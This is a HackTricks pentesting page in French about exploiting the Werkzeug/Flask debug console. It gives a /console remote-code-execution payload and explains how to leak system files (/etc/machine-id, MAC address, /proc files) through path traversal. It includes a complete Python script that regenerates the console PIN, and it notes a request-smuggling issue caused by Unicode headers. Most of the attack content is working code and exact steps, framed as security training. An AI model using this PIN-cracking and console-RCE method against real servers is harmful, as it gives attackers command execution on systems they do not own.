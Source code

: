 # Werkzeug / Flask Debug

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Configuration instantanément disponible pour l'évaluation des vulnérabilités et le pentesting**. Réalisez un pentest complet depuis n'importe où avec plus de 20 outils et fonctionnalités allant de la reconnaissance au reporting. Nous ne remplaçons pas les pentesters - nous développons des outils personnalisés, des modules de détection et d'exploitation pour leur redonner du temps pour approfondir, exploiter des shells et s'amuser.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Si le débogage est actif, vous pourriez essayer d'accéder à `/console` et d'obtenir RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Il existe également plusieurs exploits sur Internet comme [celui-ci](https://github.com/its-arun/Werkzeug-Debug-RCE) ou un dans metasploit.

## Protégé par un PIN - Traversée de chemin

Dans certaines occasions, le point de terminaison **`/console`** sera protégé par un PIN. Si vous avez une **vulnérabilité de traversée de fichier**, vous pouvez leak toutes les informations nécessaires pour générer ce PIN.

### Exploit de PIN de la console Werkzeug

Forcez une page d'erreur de débogage dans l'application pour voir cela :
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Un message concernant le scénario "console verrouillée" est rencontré lors de la tentative d'accès à l'interface de débogage de Werkzeug, indiquant qu'un code PIN est requis pour déverrouiller la console. La suggestion est faite d'exploiter le code PIN de la console en analysant l'algorithme de génération de PIN dans le fichier d'initialisation de débogage de Werkzeug (`__init__.py`). Le mécanisme de génération de PIN peut être étudié à partir du [**dépôt de code source de Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), bien qu'il soit conseillé de se procurer le code serveur réel via une vulnérabilité de traversée de fichiers en raison de potentielles divergences de version.

Pour exploiter le code PIN de la console, deux ensembles de variables, `probably_public_bits` et `private_bits`, sont nécessaires :

#### **`probably_public_bits`**

* **`username`** : Fait référence à l'utilisateur qui a initié la session Flask.
* **`modname`** : Désigné généralement comme `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`** : Résout généralement à **Flask**.
* **`getattr(mod, '__file__', None)`** : Représente le chemin complet vers `app.py` dans le répertoire Flask (par exemple, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Si `app.py` n'est pas applicable, **essayez `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`** : Récupère l'adresse MAC de la machine actuelle, avec `str(uuid.getnode())` la traduisant en format décimal.
* Pour **déterminer l'adresse MAC du serveur**, il faut identifier l'interface réseau active utilisée par l'application (par exemple, `ens3`). En cas d'incertitude, **fuite `/proc/net/arp`** pour trouver l'ID de l'appareil, puis **extraire l'adresse MAC** de **`/sys/class/net/<device id>/address`**.
*   La conversion d'une adresse MAC hexadécimale en décimal peut être effectuée comme montré ci-dessous :

```python
# Exemple d'adresse MAC : 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`** : Concatène les données de `/etc/machine-id` ou `/proc/sys/kernel/random/boot_id` avec la première ligne de `/proc/self/cgroup` après le dernier slash (`/`).

<details>

<summary>Code pour `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Après avoir rassemblé toutes les données nécessaires, le script d'exploitation peut être exécuté pour générer le PIN de la console Werkzeug :

Après avoir rassemblé toutes les données nécessaires, le script d'exploitation peut être exécuté pour générer le PIN de la console Werkzeug. Le script utilise les `probably_public_bits` et `private_bits` assemblés pour créer un hachage, qui subit ensuite un traitement supplémentaire pour produire le PIN final. Ci-dessous se trouve le code Python pour exécuter ce processus :
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Ce script produit le PIN en hachant les bits concaténés, en ajoutant des sels spécifiques (`cookiesalt` et `pinsalt`), et en formatant la sortie. Il est important de noter que les valeurs réelles pour `probably_public_bits` et `private_bits` doivent être obtenues avec précision à partir du système cible pour garantir que le PIN généré correspond à celui attendu par la console Werkzeug.

{% hint style="success" %}
Si vous utilisez une **ancienne version** de Werkzeug, essayez de changer l'**algorithme de hachage en md5** au lieu de sha1.
{% endhint %}

## Caractères Unicode de Werkzeug

Comme observé dans [**ce problème**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug ne ferme pas une requête avec des caractères Unicode dans les en-têtes. Et comme expliqué dans [**ce rapport**](https://mizu.re/post/twisty-python), cela pourrait causer une vulnérabilité de CL.0 Request Smuggling.

C'est parce qu'il est possible d'envoyer certains caractères **Unicode** dans Werkzeug et cela fera **casser** le serveur. Cependant, si la connexion HTTP a été créée avec l'en-tête **`Connection: keep-alive`**, le corps de la requête ne sera pas lu et la connexion restera ouverte, donc le **corps** de la requête sera traité comme la **prochaine requête HTTP**.

## Exploitation Automatisée

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Références

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Configuration instantanément disponible pour l'évaluation des vulnérabilités et le pentesting**. Réalisez un pentest complet depuis n'importe où avec plus de 20 outils et fonctionnalités allant de la reconnaissance au reporting. Nous ne remplaçons pas les pentesters - nous développons des outils personnalisés, des modules de détection et d'exploitation pour leur redonner du temps pour approfondir, pop des shells et s'amuser.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
